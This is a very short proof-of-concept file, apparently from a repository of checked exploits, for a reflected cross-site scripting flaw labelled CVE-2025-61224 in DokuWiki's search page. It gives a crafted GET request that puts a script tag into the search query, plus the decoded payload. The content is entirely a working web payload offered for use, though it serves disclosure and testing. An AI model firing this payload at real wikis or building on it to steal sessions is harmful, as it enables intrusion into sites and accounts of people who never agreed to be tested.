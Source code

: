 # poc
checkedPocs

#CVE-2025-61224
poc: GET https://<host>/dokuwiki/doku.php?id=start&do=search&q=1%20%40%3Cscript%3Eprompt%60xss%60%3C%2fscript%3E
Payload: ```1 @<script>prompt`xss`</script>```
